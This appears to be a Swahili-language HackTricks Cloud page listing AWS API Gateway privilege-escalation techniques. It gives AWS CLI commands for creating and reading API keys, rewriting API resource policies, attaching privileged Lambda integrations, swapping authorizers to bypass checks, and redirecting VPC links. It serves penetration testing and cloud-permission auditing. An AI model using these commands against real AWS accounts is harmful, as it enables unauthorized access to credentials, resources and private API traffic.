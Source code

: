 # AWS - Ukarabati wa Mamlaka ya Apigateway

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Apigateway

Kwa habari zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa idhini hii, unaweza kuzalisha funguo za API za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway create-api-key
```
**Athari Inayowezekana:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikiaji wa habari nyeti.

### `apigateway:GET`

Kwa kibali hiki unaweza kupata funguo za API zilizotengenezwa za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Athari Inayowezekana:** Huwezi kufanya privesc kwa njia hii lakini unaweza kupata ufikivu wa habari nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa ruhusa hizi, inawezekana kurekebisha sera ya rasilimali ya API ili kujipatia ufikivu wa kuipiga simu na kutumia ufikivu wa API gateway unaweza kuwa nao (kama kuita lambda inayoweza kudhuriwa).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**Athari Inayowezekana:** Kwa kawaida, hutaweza kufanya privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikio wa habari nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza ushirikishwaji mpya kwenye API ya Gateway ya REST iliyopo na kazi ya Lambda ambayo ina jukumu la IAM limeambatanishwa**. Mshambuliaji kisha anaweza **kuzindua kazi ya Lambda kutekeleza nambari ya kupindukia na labda kupata ufikio wa rasilimali zilizohusishwa na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayowezekana**: Kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la Lambda function.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa za `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kurekebisha mwandishi wa API ya Gateway uliopo** ili kudukua ukaguzi wa usalama au kutekeleza nambari ya kupita wakati maombi ya API yanafanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kupitisha ukaguzi wa usalama, ufikiaji usioruhusiwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

Mshambuliaji mwenye ruhusa ya `apigateway:UpdateVpcLink` anaweza **kurekebisha Kiungo cha VPC kilichopo ili kuelekeza kwenye Balansa ya Mzigo wa Mtandao tofauti, hivyo kubadilisha trafiki ya API ya kibinafsi kuelekezwa kwenye rasilimali zisizoruhusiwa au zenye nia mbaya**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Matokeo Yanayowezekana**: Upatikanaji usiohalali wa rasilimali za API za kibinafsi, udukuzi au kuvuruga trafiki ya API.

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
